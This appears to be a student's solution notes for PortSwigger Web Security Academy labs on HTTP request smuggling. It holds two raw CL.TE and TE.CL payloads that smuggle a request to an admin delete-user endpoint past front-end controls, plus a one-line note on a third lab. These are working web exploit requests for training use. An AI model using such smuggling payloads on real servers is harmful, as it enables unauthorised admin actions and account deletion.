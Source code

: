 # Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

```http
POST / HTTP/1.1
Host: 0a9a00c9035906cc80d885c30080005c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

# Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

```http
POST / HTTP/1.1
Host: 0a70005304907fda82457014002d00fe.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

89
POST /admin/delete/?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

# Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting

CL.TE

With the Content-Length we got the Header for IP checking
